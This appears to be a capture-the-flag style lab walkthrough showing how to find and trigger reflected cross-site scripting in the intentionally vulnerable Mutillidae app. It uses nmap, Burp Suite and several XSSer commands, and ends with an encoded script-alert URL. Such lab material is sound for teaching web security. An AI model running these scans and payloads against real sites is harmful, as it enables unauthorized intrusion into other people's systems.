


r

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">XSS Attack with XSSer </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=1889> </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Webapp Pentesting Basics </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Step 1:** Start the terminal and check the IP address of the machine. **Command:** ip addr 

The IP address of the attacker machine is 192.94.37.2, the target machine will be located at IP address 192.94.37.3 

**Step 2:** Run a Nmap scan against the target IP. **Command:** nmap -sS -sV 192.94.37.3 

Port 80 and 3306 are open.**  

**Step 3:** Access the web application using firefox.  **Command:** firefox http://192.94.37.3 

**Step 4:** Navigate to the XSS DNS lookup webpage. **URL:** http://192.94.37.3/index.php?page=dns-lookup.php 

**Step 5:** Enter  any text to “**Hostname/IP**” textfield and click on "Lookup DNS"  

The entered value is reflected back on the web page.  **Step 6:** Check the usage of xsser.  

**Command:** xsser --help 

**Step 7:** Configure firefox to use burp suite proxy. 

**Step 8:** Start burp suite. 

**Step 9:**  Enter  any text to “**Hostname/IP**” textfield and click on "Lookup DNS". The request will be intercepted by burp suite. 

**Step 10:** Pass the URL to XSSER. Replace “**HelloWorld**” with “**XSS”**, this is done so that XSSer will substitute payload in place of "XSS" string. 

**Command:** xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target\_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' 

The output confirms that the target is vulnerable.  

**Step 11:** Trying various XSS payloads by using XSSer's  “--auto” option. 

**Command:** xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target\_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto 

**Step 12:** Using custom XSS payload. 

**Command:** xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target\_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "" 

![ref2]

The encoded XSS payload is generated.  

**Step 13:** In Burp Suite, replace the POST parameters with the final attack payload and forward the request. 

The XSS payload will be triggered. 

![ref2]
![ref1]

. 

**Step 14:** Performing XSS attack over GET request. Navigate to the **Poll Question** webpage. 

**URL:** http://192.94.37.3/index.php?page=user-poll.php 

**Step 15:** Enter any value and submit the vote. 

![ref2]

The value nmap is reflected on the web page 

**Step 16:** Copy the URL, replace the nmap value with "XSS" and pass it to XSSer 

**URL:** http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=**nmap**&initials=jd&user-p oll-php-submit-button=Submit+Vote 

**Command:** xsser --url “http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=**XSS**&initials=jd&user-po ll-php-submit-button=Submit+Vote” 

![ref2]
![ref1]

**Step 17:** Providing basic XSS payload to XSSer 

**Command:** xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-po ll-php-submit-button=Submit+Vote" --Fp "" 

**Step 18:** Open the final attack link to trigger the XSS vulnerability in firefox browser. 

**URL:** http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=%3Cscript%3Ealert%281 %29%3C%2Fscript%3E&initials=jd&user-poll-php-submit-button=Submit+Vote 

**References** 

1. Burp Suite (<https://portswigger.net/burp>) 
1. Mutillidae II (<https://sourceforge.net/projects/mutillidae/>) 
1. XSSer Tool (<https://github.com/epsylon/xsser>) 
![ref2]

[ref1]: Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.002.png
[ref2]: Aspose.Words.f3f0bea0-777c-43a0-83c2-41c2aacbefd2.014.png
